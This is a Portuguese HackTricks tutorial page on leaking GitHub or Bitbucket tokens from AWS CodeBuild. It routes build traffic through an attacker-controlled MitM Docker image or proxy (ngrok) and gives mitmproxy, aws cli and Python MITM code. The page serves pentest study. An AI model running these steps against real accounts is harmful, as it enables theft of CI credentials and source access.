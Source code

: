 # AWS Codebuild - Vazamento de Token

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **no GitHub**.

</details>

## Recuperar Tokens Configurados do Github/Bitbucket

### Via Imagem Docker

Se você descobrir que a autenticação, por exemplo, para o Github está configurada na conta, você pode **extrair** esse **acesso** (**token GH ou token OAuth**) fazendo com que o Codebuild **use uma imagem Docker específica** para executar a compilação do projeto.

Para isso, você pode **criar um novo projeto Codebuild** ou alterar o **ambiente** de um projeto existente para definir a **imagem Docker**.

A imagem Docker que você pode usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que definirá as variáveis de ambiente `https_proxy`, `http_proxy` e `SSL_CERT_FILE`. Isso permitirá que você intercepte a maioria do tráfego do host indicado em `https_proxy` e `http_proxy` e confie no CERT SSL indicado em `SSL_CERT_FILE`.

1. **Crie e faça upload da sua própria imagem Docker MitM**
* Siga as instruções do repositório para definir o endereço IP do seu proxy e definir seu certificado SSL e **construir a imagem Docker**.
* **NÃO DEFINA `http_proxy`** para não interceptar solicitações para o endpoint de metadados.
* Você pode usar o **`ngrok`** como `ngrok tcp 4444` para definir o proxy para o seu host.
* Depois de construir a imagem Docker, **faça o upload dela para um repositório público** (Dockerhub, ECR...)
2. **Defina o ambiente**
* Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um projeto existente.
* Defina o projeto para usar a **imagem Docker gerada anteriormente**
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Defina o proxy MitM em seu host**
* Como indicado no **repositório do Github**, você pode usar algo como: `mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`
4. **Execute a compilação e capture as credenciais**
* Você pode ver o token no cabeçalho de autorização:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Isso também pode ser feito pelo aws cli com algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER",
"image": "docker.io/carlospolop/docker-mitm:v6",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
},
"serviceRole": "arn-service-role"
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via protocolo HTTP

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento na semana de 20 de fevereiro de 2023 (acho que na sexta-feira). Portanto, um invasor não pode mais explorá-la :)**
{% endhint %}

Um invasor com **permissões elevadas em um CodeBuild poderia vazar o token do Github/Bitbucket** configurado ou, se as permissões fossem configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um invasor poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Em seguida, altere a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: **http://**github.com/carlospolop-forks/TestActions
* Em seguida, execute o exemplo básico em [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Por fim, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um atacante poderá usar o token em sua máquina, listar todos os privilégios que ele possui e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
